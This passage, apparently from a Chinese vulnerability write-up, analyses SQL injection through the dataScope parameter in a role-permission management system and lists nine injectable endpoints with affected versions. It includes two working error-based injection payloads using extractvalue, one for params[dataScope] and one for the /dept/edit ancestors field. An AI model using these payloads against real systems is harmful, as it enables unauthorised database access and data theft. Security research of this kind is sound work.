 例如，在一个基于角色权限管理的系统中，不同的用户可能有权限查看不同的数据记录。管理员可能可以查看所有部门的记录，而普通用户只能查看自己部门的记录。在这种情况下，  
dataScope的值可以是一个根据用户角色动态生成的SQL片段，如  
"AND dept_id IN (SELECT dept_id FROM user_dept_access WHERE user_id = #{userId})"，用以限定查询结果只包含特定部门的用户信息。  
  
可以看到，在查询的时候，user的属性params是map，在xml中，将dataScope拼接到sql语句后  
  
进入mapper层  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNAIyMZ3vMPR6NDYAtU8ibfFrNod4YS5GvQCZbev5N6EAJXK8yZCZXJgQ/640?wx_fmt=png&from=appmsg "")  
  
跳转到上级  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNaEDG60ZN3R05yGSYU46icyx5bzlU5oyXSArSL5j2ibFaUUibjNy6CeOpA/640?wx_fmt=png&from=appmsg "")  
  
  
进入role查看信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN9Kiab7gVgwHDEv0nJWL2m0LUpMX77Jsmm799d4bf13HALowLT0exYYg/640?wx_fmt=png&from=appmsg "")  
  
  
查看功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN6zBoo8sJpwjKxolqiaQCjib1ibqVnYuLd3DicXcicOejkHdyMtP9ib1E2Tnw/640?wx_fmt=png&from=appmsg "")  
  
  
params  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN5gtoibB04aKpnSDI8GiaqmsRCia2PZAX6kFDfcXR16SK8IvAErnUDl2AA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNCLy4l4ibWSUvgp74qXWcIyXkckJW2Yslzlv2lsibJCNxtBKEPicHG40dg/640?wx_fmt=png&from=appmsg "")  
  
根据路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNaiaBPRlVeFlGXicHpEZCr0cfDPEUXf6r9WicnYqDSVkddhicibOcWZ2HexA/640?wx_fmt=png&from=appmsg "")  
  
  
执行代码  
```
&params[dataScope]=and extractvalue(1,concat(0x7e,(select user()),0x7e))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNIAsKzicZACu9fMQd562pPiaDzib6h8LiatqIj18NeKlFibU1QDiagcX201qg/640?wx_fmt=png&from=appmsg "")  
### 注入点2 /role/export （<V-4.6.2）  
### 注入点3 /user/list （<V-4.6.2）  
### 注入点4 /user/list （<V-4.6.2）  
### 注入点5 /dept/list （<V-4.6.2）  
### 注入点6 /role/authUser/allocatedList （<V-4.6.2）  
### 注入点7 /role/authUser/unallocatedList  
### 注入点8 /dept/edit （<V-4.6.2）  
```
DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#
```  
### 注入点9 /tool/gen/createTable（V-4.7.1-V-4.7.5）  
  